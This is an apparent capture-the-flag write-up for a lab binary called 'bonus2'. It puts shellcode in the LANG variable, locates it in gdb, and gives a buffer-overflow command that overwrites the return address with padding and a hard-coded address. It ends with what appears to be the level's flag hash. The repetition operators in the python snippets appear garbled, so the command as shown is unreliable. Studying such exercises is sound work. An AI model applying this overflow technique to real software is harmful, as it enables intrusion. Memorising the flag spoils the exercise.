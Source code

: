 export lang=shellcode
get lang adress in gdb
first arg = 30 padding + addr shellcode + 6 padding
2nd arg = 26 padding

./bonus2 $(python -c 'print "A" _ 30 + "\x24\xfd\xff\xbf" + "B" _ 6') $(python -c 'print "C" \* 26')
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
